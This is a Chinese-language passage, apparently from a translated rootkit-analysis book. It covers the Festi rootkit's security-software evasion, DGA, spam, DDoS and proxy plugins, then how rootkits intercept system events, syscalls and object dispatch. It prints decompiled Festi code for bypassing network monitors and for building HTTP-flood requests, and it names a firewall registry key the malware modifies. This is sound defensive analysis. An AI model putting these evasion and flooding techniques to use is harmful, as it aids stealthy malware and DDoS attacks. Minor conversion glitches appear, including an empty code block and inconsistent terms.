

*图 2-10：自定义 ZwCreateFile 例程*

可以看到，Festi 手动创建文件对象以与被打开的设备进行通信，并直接向传输驱动程序发送 `IRP_MJ_CREATE` 请求。因此，所有挂载在 `\Device\Tcp` 或 `\Device\Udp` 下的设备均不会在请求中被观察到，操作对安全软件不可见，如图 2-11 所示。

图左侧展示了 `IRP` 的正常处理流程：数据包会经过完整的驱动堆栈，堆栈内的所有驱动（包括安全软件）都会收到并检查数据包内容。图右侧展示了 Festi 绕过所有中间驱动，直接向目标驱动发送 `IRP` 数据包的方式。



*图 2-11：绕过网络监控安全软件*

Festi 同样巧妙地规避了第二种安全软件技术。要直接向 `\Device\Tcp` 或 `\Device\Udp` 发送请求，恶意软件需要指向对应设备对象的指针。实现此操作的代码片段如第 2-6 条所示。

```c
RtlInitUnicodeString(&DriverName, L"\\Driver\\Tcpip");
RtlInitUnicodeString(&tcp_name, L"\\Device\\Tcp");
RtlInitUnicodeString(&udp_name, L"\\Device\\Udp");

// ➊
if (!ObReferenceObjectByName(&DriverName, 64, 0, 0x1F01FF,
                             IoDriverObjectType, 0, 0, &TcpipDriver))
{
    DevObj = TcpipDriver->DeviceObject;

    // ➋
    while (DevObj)  // 遍历 DEVICE_OBJECT 链表
    {
        if (!ObQueryNameString(DevObj, &Objname, 256, &v8))
        {
            // ➌
            if (RtlCompareUnicodeString(&tcp_name, &Objname, 1u))
            {
                // ➍
                if (!RtlCompareUnicodeString(&udp_name, &Objname, 1u))
                {
                    ObfReferenceObject(DevObj);
                    this->DeviceUdp = DevObj;  // 保存 \Device\Udp 指针
                }
            }
            else
            {
                ObfReferenceObject(DevObj);
                this->DeviceTcp = DevObj;  // 保存 \Device\Tcp 指针
            }
        }
        DevObj = DevObj->NextDevice;  // 获取下一个 DEVICE_OBJECT
    }
    ObfDereferenceObject(TcpipDriver);
}
```

*第 2-6 条：实现规避网络监控安全软件的技术*

Festi 通过执行 `ObReferenceObjectByName` 例程 ➊（一个未文档化的系统例程），并将指向目标驱动程序名称的 Unicode 字符串指针作为参数，获取 `tcpip.sys` 驱动对象的指针。随后恶意软件遍历与该驱动对象关联的设备对象列表 ➋，并将它们的名称与 `\Device\Tcp` ➌ 与 `\Device\Udp` ➍ 进行比较。

当恶意软件通过这种方式获得已打开设备的句柄后，它会利用该句柄在网络上发送和接收数据。尽管 Festi 能够规避安全软件，但仍可通过在比 Festi 更低层级（例如在 Network Driver Interface Specification，NDIS 层）运行的网络流量过滤器查看到它发送的数据包。

### The Domain Generation Algorithm for C&C Failure

Festi 的另一项显著特征是实现了域名生成算法（DGA），在 bot 配置数据中的 C&C 服务器域名不可达时作为后备机制使用。例如，当执法机构下架 Festi C&C 服务器的域名时，恶意软件可能无法下载插件和指令。该算法以当前日期为输入，输出一个域名。

Table 2-2 列出了 Festi 样本的 DGA 域名。可以看出，所有生成的域名都是伪随机的，这是 DGA 生成域名的典型特征。

**Table 2-2:** Festi 生成的 DGA 域名列表

| **Date** | **DGA domain name** |
| --- | --- |
| 07/11/2012 | `fzcbihskf.com` |
| 08/11/2012 | `pzcaihszf.com` |
| 09/11/2012 | `dzcxifsff.com` |
| 10/11/2012 | `azcgnfsmf.com` |
| 11/11/2012 | `bzcfnfsif.com` |

实现 DGA 功能使 botnet 对下线尝试具有弹性。即使执法机构成功关闭了主 C&C 服务器域名，恶意软件的 master 仍可通过 DGA 回退，继续掌控 botnet。

### Malicious Functionality

在介绍完根包根功能后，我们来看从 C&C 服务器下载的恶意插件。调查过程中，我们获得了这些插件的样本，并识别出三种类型：

*   `BotSpam.sys` 用于发送垃圾邮件
*   `BotDos.sys` 用于发起 DDoS 攻击
*   `BotSocks.sys` 用于提供代理服务

我们发现，不同的 C&C 服务器倾向于提供不同类型的插件：有些服务器只提供带有垃圾邮件插件的 bot，而其他服务器只提供 DDoS 插件，这表明恶意功能取决于 bot 向其注册的 C&C 服务器。Festi botnet 并非单一体，而是由针对不同目标的子 botnet 组成。

#### The Spam Module

`BotSpam.sys` 插件负责发送垃圾邮件。C&C 服务器会向它发送垃圾邮件模板以及收件人邮箱列表。Figure 2-12 展示了垃圾邮件插件的工作流程。



*Figure 2-12: Festi 垃圾邮件插件工作流程图*

首先，插件通过加密连接向 C&C 服务器下载包含收件人邮箱、发件人参数以及实际垃圾邮件模板的列表。随后，它将垃圾邮件分发给收件人。与此同时，恶意软件会向 C&C 服务器报告状态，并请求更新邮箱列表和垃圾邮件模板。

插件随后通过扫描 SMTP 服务器的响应来检查已发送邮件的状态，寻找特定字符串以判断是否出现问题 —— 例如，若没有该地址的收件人，邮件未送达，或邮件被标记为垃圾邮件。若在 SMTP 服务器的响应中发现这些字符串，插件会优雅地结束与 SMTP 服务器的会话，并转到列表中的下一个地址。此举帮助恶意软件避免其发送 IP 被 SMTP 服务器拉入黑名单，从而阻止其继续发送垃圾邮件。

#### The DDoS Engine

`BotDos.sys` 插件允许 bot 对指定目标进行 DDoS 攻击。插件支持多种 DDoS 攻击类型，涵盖不同架构和软件环境的远程主机。攻击类型由 C&C 服务器下发的配置数据决定，包括 TCP 洪水、UDP 洪水、DNS 洪水和 HTTP 洪水攻击。

##### TCP Flood

在 TCP 洪水攻击中，bot 会向目标机器的端口发起大量连接。每次 Festi 连接到目标端口，服务器都会为处理该连接分配资源。很快服务器资源耗尽，停止响应客户端请求。

默认端口是 HTTP 端口 80，但可根据 C&C 服务器提供的配置信息进行修改，从而攻击监听在除 80 端口之外的 HTTP 服务器。

##### UDP Flood

在 UDP 洪水攻击中，bot 会发送长度随机（256 至 1,024 字节）且内容随机的 UDP 包。目标端口也随机生成，通常不开放。攻击导致目标主机大量发送 ICMP Destination Unreachable 响应，使目标机器不可用。

##### DNS Flood

bot 还能够进行 DNS 洪水攻击，向 DNS 服务端口 53 发送大量 UDP 包，包含请求解析 `*.com` 域名的随机生成域名的请求。

##### HTTP Flood

针对 Web 服务器的 HTTP 洪水攻击中，bot 的二进制文件包含大量不同的 User-Agent 字符串，用于创建大量 HTTP 会话，从而耗尽远程主机资源。Listing 2-7 展示了构建 HTTP 请求的代码片段。

```cpp
```


## `BuildHttpHeader` 函数分析

```c
int __thiscall BuildHttpHeader(_BYTE *this, int a2)
{
    ➊ user_agent_idx = get_rnd() % 0x64u;

    str_cpy(http_header, "GET ");

    str_cat(http_header, &v4[204 * (*(_DWORD *)(v2 + 4) + 2796)]);

    str_cat(http_header, " HTTP/1.0\r\n");

    if (v4[2724] & 2) {
        str_cat(http_header, "Accept: */\*\\r\n");
        str_cat(http_header, "Accept-Language: en-US\r\n");
        str_cat(http_header, "User-Agent: ");
        ➋ str_cat(http_header, user_agent_strings[user_agent_idx]);
        str_cat(http_header, "\\r\n");
    }

    str_cat(http_header, "Host: ");
    str_cat(http_header, &v4[204 * (*(_DWORD *)(v2 + 4) + 2732)]);
    str_cat(http_header, "\\r\n");

    if (v4[2724] & 2)
        str_cat(http_header, "Connection: Keep-Alive\r\n");

    str_cat(http_header, "\\r\n");

    result = str_len(http_header);
    *(_DWORD *)(v2 + 16) = result;

    return result;
}
```

### 关键点说明

1.  **随机 User-Agent 选择** (`➊`)：调用 `get_rnd()` 生成随机数，对 `0x64` (100) 取模，从 `user_agent_strings` 数组中选取一个 User-Agent 字符串。
2.  **条件构建请求头** (`➋`)：仅当 `v4[2724] & 2` 为真时，才添加 `Accept`、`Accept-Language`、`User-Agent` 及 `Connection: Keep-Alive` 头部。
3.  **动态路径与 Host**：通过 `v2` 和 `v4` 指针运算动态拼接请求路径 (`2796` 偏移) 和 `Host` 头值 (`2732` 偏移)。
4.  **返回值**：函数最终返回构建完成的 HTTP 头部字符串长度，并将该长度存入 `v2 + 16` 处。


*Listing 2-7: Festi DDoS 插件中组装 HTTP 请求的代码片段*

在 ➊ 处，代码生成一个值，随后在 ➋ 处将该值作为 User‑Agent 字符串数组的索引使用。

#### `Festi Proxy Plug‑in`

`BotSocks.sys` 插件通过实现基于 TCP 与 UDP 协议的 SOCKS 服务器，为攻击者提供远程代理服务。SOCKS 服务器会在客户端的代理请求下，建立到另一目标服务器的网络连接，然后在客户端与目标服务器之间转发所有流量。

因此，Festi 感染机器会成为一个代理服务器，使攻击者能够通过受感染的主机访问远程服务器。网络犯罪分子可利用此服务进行匿名化 —— 隐藏攻击者的 IP 地址。由于连接是通过受感染的主机建立的，远程服务器只能看到受害者的 IP，而看不到攻击者的真实 IP。

- Festi 的 `BotSocks.sys` 插件不使用任何反向代理机制来绕过 NAT（网络地址转换），这使得网络中的多台计算机可以共享一个对外可见的 IP 地址。插件加载后，会打开网络端口并开始监听入站连接。端口号在 4000 到 65536 的范围内随机选择。插件会将其监听的端口号发送给 C&C 服务器，以便攻击者能够建立与受害计算机的网络连接。除非为目标端口配置了端口转发，否则 NAT 通常会阻止此类入站连接。

- `BotSocks.sys` 插件还尝试绕过 Windows 防火墙，以免防火墙阻止端口的打开。插件修改了注册表键 `SYSTEM\\CurrentControlSet\\Services\\SharedAccess\\Parameters\\FirewallPolicy\\DomainProfile\\GloballyOpenPorts\\List`，该键包含一个列表，指示哪些端口可以在 Windows 防火墙配置文件中打开。恶意软件在该注册表键下添加两个子键，分别允许来自任何目的地的入站 TCP 和 UDP 连接。

**SOCKS**

`Socket Secure (SOCKS)` 是一种互联网协议，通过代理服务器在客户端和服务器之间交换网络数据包。SOCKS 服务器会将 SOCKS 客户端的 TCP 连接代理到任意 IP 地址，并提供 UDP 数据包转发的手段。SOCKS 协议常被网络罪犯用作规避工具，以绕过过滤并访问被阻止的内容。

### Conclusion

你现在已经对 Festi 根包有了完整的认识及其功能。Festi 是一款结构精良、功能精心设计的恶意软件。其每个技术细节都符合设计原则：保持隐蔽，抗击自动分析、监控系统和取证分析。

从 C&C 服务器下载的可 volatile 恶意插件不会在受感染机器的硬盘上留下任何痕迹。使用加密保护网络通信协议可使其在网络流量中难以被检测，而高级的内核模式套接字使用则使 Festi 能够绕过部分主机入侵防御系统（HIPS）和个人防火墙。

该 bot 通过实现根包功能隐藏其主模块及对应的注册表键来躲避安全软件。这些技术在 Festi 盛行时期对安全软件非常有效，但也构成了其主要缺陷：它仅针对 32 位系统。现代 Windows 64 位系统实现了诸如 PatchGuard 等高级安全特性，使 Festi 的侵入手段失效。64 位版本还要求内核驱动具备有效的数字签名，这对恶意软件而言并非易事。正如在 [第 1 章] 所述，恶意软件开发者为绕过此限制采用了引导包技术（bootkit），我们将在 [第 2 部分] 中详细探讨。

## 3 OBSERVING ROOTKIT INFECTIONS


我们如何检测系统是否可能感染了根包？毕竟，根包的整个目的是阻止管理员检查系统的真实状态，因此发现感染证据可能是一场智力博弈——或者说是对系统内部结构的深入了解的竞赛。分析人员必须最初对从受感染系统获得的任何信息保持怀疑，并努力寻找即使在系统被入侵的情况下也可信赖的更深层证据。

从 TDL3 和 Festi 根包的案例可以看出，依赖于在固定位置检查内核完整性的检测方法注定会失效。根包不断演进，新的技术很可能是防御软件所不熟悉的。事实上，早在 2000 年代初期根包的黄金时代，开发者不断推出新技巧，使根包能够数月不被发现，直到防御软件能够开发并加入新的、稳定的检测方法。

防御方法的发展滞后为一种专门的 *antirootkit*（反根包）软件创造了机会，这类工具在检测根包时不顾检测算法的严谨性（有时甚至牺牲系统稳定性），以更快发现根包。随着这些算法的成熟，它们被纳入更传统的主机入侵防御系统（HIPS），并加入了新的“前沿”启发式。

面对这些防御创新，根包开发者则想方设法主动干扰 antirootkit 工具。系统层面的防御与攻击在多个循环中共演。正是通过这种 coevolution，防守者大幅深化了对系统组成、攻击面、完整性和防护能力的理解。正如微软高级安全研究员约翰·林德尔（John Lambert）所言：“如果你贬低攻击研究，你就误判了其贡献。攻击与防御不是平辈关系，防御是攻击的子女。”

要有效捕捉根包，防御者必须学会像根包创作者一样思考。

### Methods of Interception

根包必须在操作系统的特定点进行拦截，以阻止 antirootkit 工具的启动或初始化。这些拦截点既存在于标准操作系统机制，也存在于未记录的机制中。拦截方法的例子包括：修改关键函数的代码、更改内核和驱动数据结构中的指针，以及使用 `Direct Kernel Object Manipulation (DKOM)` 等技术操纵数据。

为使这似乎无限的列表更有条理，我们将考虑三种主要操作系统机制，根包可以在这些机制上拦截程序启动和初始化：系统事件、系统调用和对象分发器。

#### Intercepting System Events

第一种获得控制的方法是通过 `event notification callbacks` 进行拦截，这些是操作系统提供的已记录接口，用于处理各种系统事件。合法驱动程序需要通过这些机制响应新进程的创建或数据流的出现，加载可执行文件并修改注册表键。为防止驱动程序员编写脆弱、未记录的钩子解决方案，Microsoft 提供了标准化的事件通知机制。恶意软件利用同样的机制，用自己的代码响应系统事件，从而绕过合法的响应。

例如，内核模式驱动的 `CmRegisterCallbackEx` 例程会在每次有人对系统注册表进行操作（如创建、修改或删除注册表键）时执行注册的回调函数。通过滥用此功能，恶意软件可以拦截所有对系统注册表的请求，检查它们，然后阻止或放行。这使得根包能够隐藏与其内核驱动对应的注册表键，并阻止安全软件对其进行删除。

**REGISTERING KERNEL‑MODE DRIVERS IN THE SYSTEM REGISTRY**

在 Windows 中，每个内核模式驱动都有一个专门的条目在系统注册表中，位于 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services` 关键字下。该条目指定驱动的名称、驱动类型、驱动映像在磁盘上的位置，以及驱动应该何时加载（按需加载、系统启动时、系统初始化时等）。如果该条目被删除，操作系统将无法加载该内核模式驱动。为了在目标系统上保持持久化，内核模式根套件（rootkits）通常会保护其对应的注册表条目不被安全软件删除。

另一种恶意系统事件拦截利用内核模式驱动的 `PsSetLoadImageNotifyRoutine` 例程。该例程注册回调函数 `ImageNotifyRoutine`，该函数在每次可执行映像被映射到内存时执行。回调函数接收关于正在加载的映像的信息，包括映像名称、基地址以及加载到的进程标识符。

根套件经常滥用 `PsSetLoadImageNotifyRoutine` 例程，在用户模式地址空间中注入恶意负载到目标进程。通过注册回调例程，根套件会在每次图像加载操作发生时收到通知，并可以检查传递给 `ImageNotifyRoutine` 的信息，以判断目标进程是否值得关注。例如，如果根套件只想在浏览器中注入用户模式负载，它可以检查正在加载的映像是否对应浏览器应用，从而有选择地进行注入。

还有其他由内核提供的接口，也具有类似功能，后续章节将进行讨论。

### 拦截系统调用

第二种感染方法是拦截另一个关键的操作系统机制：系统调用，这是用户空间程序与内核交互的主要方式。由于几乎任何用户空间 API 调用都会产生一个或多个对应的系统调用，能够拦截系统调用的根套件即可获得对系统的完整控制。

下面以拦截文件系统调用为例，这对于必须始终隐藏自身文件的根套件尤为重要。当安全软件或用户扫描文件系统时，系统会发出系统调用，指示文件系统驱动查询文件和目录。通过拦截这些系统调用，根套件可以操纵返回数据，从而将其恶意文件的信息从查询结果中排除（如在“隐藏恶意驱动程序的方法”章节中，第 22 页）[¹]。

为了了解如何反制这些滥用并保护文件系统调用免受根套件侵害，我们首先需要简要了解文件子系统的结构。它是操作系统内核内部结构被划分为许多专门层、并遵循这些层之间交互约定的典型例子——这些概念对大多数系统开发者而言可能晦涩难懂，但对根套件编写者来说并非如此。

#### 文件子系统

Windows 文件子系统与其 I/O 子系统紧密集成。这些子系统是模块化的、层级结构的，每一层的功能都由独立的驱动实现。主要有三类驱动。

*存储设备驱动* 是低级驱动，负责与特定设备的控制器（如端口、总线、驱动器）进行交互。大多数这些驱动都是 *即插即用（PnP）* 的，由 PnP 管理器加载和控制。

*存储卷驱动* 是中级驱动，负责在存储设备的分区之上控制卷抽象。为了与存储层的低层交互，这些驱动为每个分区创建一个 `物理设备对象（PDO）` 来表示该分区。当文件系统挂载到分区上时，文件系统驱动会创建一个 `卷设备对象（VDO）` 来代表该分区，供高层文件系统驱动使用，如下文所述。

*文件系统驱动* 实现特定的文件系统（如 FAT32、NTFS、CDFS 等），并为每个文件系统创建一对对象：VDO 与 `控制设备对象（CDO）`。CDO 表示给定的文件系统（相对于底层分区）。这些 CDO 设备的名称类似于 `\\Device\\Ntfs`。

**NOTE**

* 了解不同类型驱动的更多信息，请参阅 Windows 文档（https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/storage-device-stacks--storage-volumes--and-file-system-stacks/）[²]。

Figure 3-1 展示了基于 SCSI 磁盘设备的简化设备对象层次结构示例。

在存储设备驱动层，我们可以看到 SCSI 控制器和磁盘设备对象。这些对象由三个不同的驱动创建和管理：PCI 总线驱动，它 *枚举*（发现）PCI 总线上可用的存储适配器；SCSI 端口/最小化驱动，它初始化并控制已枚举的 SCSI 存储适配器；磁盘类驱动，它控制挂载在 SCSI 存储适配器上的磁盘设备。



*图 3-1：存储设备驱动栈的示例*

在存储卷驱动层，我们可以看到分区 0 和分区 1，它们由磁盘类驱动创建。分区 0 表示整个原始磁盘，无论磁盘是否被分区都始终存在。分区 1 表示磁盘上的第一个分区。本例只有单个分区，因此只展示分区 0 和分区 1。

为了向用户公开分区 1 以便其存储和访问磁盘上的文件，文件系统驱动会在存储堆栈的顶层创建一个 VDO。此外，卷设置对象可能会在 VDO 上方或驱动堆栈之间的层级中作为可选的存储过滤器设备对象出现，图中已省略以简化展示。我们还可以看到右上角的文件系统 CDO，操作系统使用它来控制文件系统驱动。

该图展示了存储驱动栈的复杂性为根套件拦截文件系统操作并篡改或隐藏数据提供了机会。

#### 拦截文件操作

根套件拦截文件操作时，在文件系统驱动层面（即最高层）进行拦截要比在较低层拦截更为容易。这样，根套件可以在应用程序程序员的层面看到所有操作，而无需去解析对程序员不可见的内部结构（即传递给低层驱动的 `I/O 请求包（IRP）`）。

如果根套件在较低层拦截，则必须重新实现 Windows 文件系统的部分功能，这既复杂又易出错。但这并不意味着没有较低层的拦截：即使在 miniport 驱动层，也可以获得磁盘的扇区级映射，并且在该层阻断或分流扇区操作是可行的，正如 TDL3 所示。

无论根套件在哪个层次拦截存储 I/O，主要有三种拦截方法：

1. 在目标设备的驱动栈中挂载过滤驱动
2. 替换驱动描述符结构中指向 IRP 或 FastIO 处理函数的指针
3. 替换这些 IRP 或 FastIO 驱动函数的代码

**FASTIO**

[¹]: 章节标题为 “The Method for Hiding the Malicious Driver on Disk”，对应文中链接的章节。
[²]: 链接为 https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/storage-device-stacks--storage-volumes--and-file-system-stacks/

要执行输入/输出操作，IRP 会遍历整个存储设备堆栈，从最顶部的设备对象一直到最底部。`FastIO` 是一种可选方法，用于在缓存文件上执行快速的同步输入/输出操作。在 `FastIO` 操作中，数据会直接在用户模式缓冲区和系统缓存之间传输，绕过文件系统和存储驱动堆栈。这使得缓存文件的 I/O 操作速度显著提升。

在 [第 2 章]，我们讨论了 Festi 根程序，它使用拦截方法 1：Festi 在文件系统驱动层的存储驱动堆栈上，于最顶端附加了一个恶意的过滤设备对象。

书后将进一步讨论 TDL4（[第 7 章]）、Olmasco（[第 10 章]）和 Rovnix（[第 11 章]）引导程序根套件，它们都采用方法 2：在可能的最低层面——存储设备驱动层——拦截磁盘 I/O 操作。我们将在 [第 12 章] 中查看 Gapz 引导程序根套件，它采用方法 3，同样在存储设备驱动层操作。您可以参考这些章节，了解每种方法的实现细节。

这段对 Windows 文件系统的简要回顾表明，由于系统的复杂性，根程序在该驱动堆栈中拥有丰富的攻击目标。根程序可以在堆栈的任何层进行拦截，甚至可以在多个层同时进行拦截。反根程序必须处理这些所有可能性——例如，通过设置自己的拦截或检查注册的回调是否合法。这显然是一项困难的任务，但防御者至少需要了解相应驱动的调度链。

#### 拦截对象调度器

本章将讨论的第三类拦截目标是 Windows 对象调度器方法。`object dispatcher` 是管理操作系统资源的子系统，这些资源在 Windows NT 架构中均以内核对象的形式呈现，而现代 Windows 所有版本均基于此架构。对象调度器及其相关数据结构的实现细节在不同 Windows 版本之间可能有所差异。本节最适用于 Windows 7 之前的版本，但其思路同样适用于其他版本。

根程序可能通过拦截 Windows 内核中用于实现调度器的 `Ob*` 函数来取得对象调度器的控制权。但根程序很少这么做，原因与它们很少直接针对顶层系统调用表条目相同：这种钩子会过于显眼且易被检测。实际上，根程序会使用更高级的技巧，直接针对内核本身，如下文所述。

每个内核对象本质上是一个内核模式内存结构，大致可分为两部分：一个包含调度器元数据的头部（`OBJECT_HEADER`），以及根据子系统需要而填充的对象体。头部的布局为 `OBJECT_HEADER` 结构，其中包含指向对象类型描述符（`OBJECT_TYPE`）的指针。`OBJECT_TYPE` 也是一个结构体，是对象的主要属性。在现代类型系统中，表示类型的结构体本身也是一个对象，其体内存放相应的类型信息。该设计通过头部元数据实现对象继承。

对普通程序员而言，这些类型系统的细节并不重要。大多数对象都是通过系统服务处理的，这些服务通过句柄（HANDLE）引用对象，同时隐藏了对象派生和管理的内部逻辑。

然而，`OBJECT_TYPE` 结构体中的某些字段对根程序很有兴趣，例如指向处理特定事件（如打开、关闭和删除对象）的函数指针。通过钩子这些函数，根程序可以拦截控制并操纵或修改对象数据。

尽管如此，系统中所有类型都可以在调度器命名空间中以对象形式枚举，位于 *ObjectTypes* 目录下。根程序可以通过两种方式利用此信息进行拦截：直接替换指向处理函数的指针，使其指向根程序自身；或替换对象头部的类型指针。

由于 Windows 调试器使用并信任这些元数据来检查内核对象，根程序利用相同类型的系统元数据进行拦截的手段很难被检测。

即使是对已有对象的类型元数据进行劫持的根程序，也更难以准确检测。其拦截更为精细、更为隐蔽。图 3-2 给出了一个此类根程序拦截的示例。



*图 3-2：通过操纵 ObjectType 钩选 OpenProcedure 处理器*

在 图 3-2 的顶部，我们可以看到拦截前对象的状态：对象的头部和类型描述符完好无损，未被修改。图的底部展示了根程序修改类型描述符后的状态。根程序获取指向存储设备对象（例如 `\\Device\\Harddisk0\\DR0`）的指针，随后为该设备创建自己的 `OBJECT_TYPE` 结构体副本 ➋。在副本中，它将感兴趣的处理函数指针（本例为 OpenProcedure 处理器）修改为指向根程序自己的处理函数 ➌。随后，指向该“恶意副本”结构的指针替换了原始设备描述符中的类型指针 ➊。此时，受感染磁盘的行为（由其元数据描述）几乎与未受感染的磁盘对象完全相同，唯一的区别在于该实例的处理函数被替换。

请注意，其他所有同类型的磁盘对象的合法结构保持原样。更改后的元数据仅出现在一个副本中，而该副本仅被目标对象所引用。要系统地发现并识别这种差异，检测算法必须遍历所有磁盘对象实例的类型字段。系统性地查找此类差异是一项需要深入理解对象子系统抽象实现的艰巨任务。

### 恢复系统内核

防御机制可能会试图全局中和根程序——也就是说，通过算法自动恢复被篡改系统的完整性，该算法会检查各种内部调度表和元数据结构，以及这些结构中指向的函数。具体做法是先恢复或验证系统调用表（SSDT）——即位于内核多个标准系统调用函数开头的代码——然后检查并恢复所有被怀疑被修改的内核数据结构。然而，正如你所理解的，这种恢复策略充满危险，且并不保证有效。

确定或计算“干净”指针的值——即系统调用函数及其下层回调的指针——以恢复正确的系统调用分发，并非易事。同样，查找干净的系统文件副本，以便从中恢复被修改的内核代码段，也并不容易。

